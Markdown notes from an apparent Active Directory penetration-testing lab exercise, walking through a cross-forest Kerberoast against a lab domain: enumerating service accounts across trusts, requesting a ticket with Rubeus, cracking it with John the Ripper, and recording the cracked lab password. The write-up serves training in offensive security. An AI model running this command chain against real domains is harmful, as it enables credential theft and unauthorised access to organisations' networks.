




# Hands-on 22: Cross Forest Attacks - Kerberoast

- [Hands-on 22: Cross Forest Attacks - Kerberoast](#hands-on-22-cross-forest-attacks---kerberoast)
  - [Task](#task)
  - [Find a service account in the eu.local forest and Kerberoast its password](#find-a-service-account-in-the-eulocal-forest-and-kerberoast-its-password)

---

## Task

Find a service account in the eu.local forest and Kerberoast its password.

<br/>

---

## Find a service account in the eu.local forest and Kerberoast its password

First import AD Module:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

<br/>

Enumerate named service accounts across the forests:

```
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}
```

  

- `eu\storagesvc` has a SPN `MSSQLSvc/eu-file.eu.local`

<br/>

To request a TGS of the above:

```
C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:eu-storagesvc.txt
```

  

<br/>

Use `klist` to check the ticket:

  

<br/>

Use `john.exe` to crack the password:

```
C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\Users\studentuser64\eu-storagesvc.txt
```

  

Note:
eu\storagesvc
- Password:  `Qwerty@123`

<br/>


